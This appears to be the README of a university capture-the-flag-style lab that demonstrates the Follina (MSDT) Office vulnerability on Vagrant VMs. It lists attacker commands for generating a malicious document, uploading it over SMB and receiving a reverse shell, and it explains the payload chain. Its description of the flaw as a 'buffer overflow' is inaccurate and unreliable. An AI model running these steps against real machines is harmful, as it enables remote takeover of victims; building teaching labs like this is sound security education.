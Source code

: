 # Follina_Vagrant
A demostation of Follina, A CTF type box using vagrant

As I am part of a society to teach offensive security at the university, I was tasked with the creation of a lecture to teach and demonstrate the Follina vulnerability, to create the demonstration I used Vagrant to easily create two virtual machines, the attacker and the victim, the attacker virtual machines would be hosted on the student’s laptop so that they would have hands-on experience creating the vulnerability, whereas the victim virtual machine would be hosted on my laptop.

The victim machine running Windows 10 and has Microsoft office 2019 installed with windows defender disabled. An SMB share is also hosted for the attacker to upload the malicious file. Due to ease of use, Netcat is also installed on the victim machine, although this would not be a real-world case and the script would have to download Netcat from the internet, due to the demonstration being run offline this was the best course of action. The attacker machine running Kali Linux with John Hammonds Follina python script installed.

Instructions on attacker machine:
- Extract msdt-follina to desktop​
- Run python3 follina.py -r 9001 -i eth1 in terminal in folder​
- Run “sudo smbclient –no-pass //192.168.1.223/SMB_victim” in a separate terminal (make sure you are in the msdt-follina file)​
- Once in the smb use the “put follina.doc"​
- Once ive opened the file you should have a reverse shell 


## Follina brief
Follina is a Vulnerability in Microsoft Windows Support Diagnostic Tool (MSDT) which can be exploited via Microsoft office document. MS word creates an external link to load HTML and then uses msdt to execute the PowerShell code.​ The external reference would be pointing to a malicious server.

Once the office document is executed the office calls out trying to download a temple from an external server, the hardcoded address within the file that would respond with the malicious payload containing an ms-msdt: command-invoking PowerShell Script.​If the downloaded file is large enough it causes a buffer overflow, allowing for remote code execution.​The PowerShell script is loaded remotely and executed.​ This PowerShell script is then used to download a new payload from the internet such as a RAT or ransomware​.

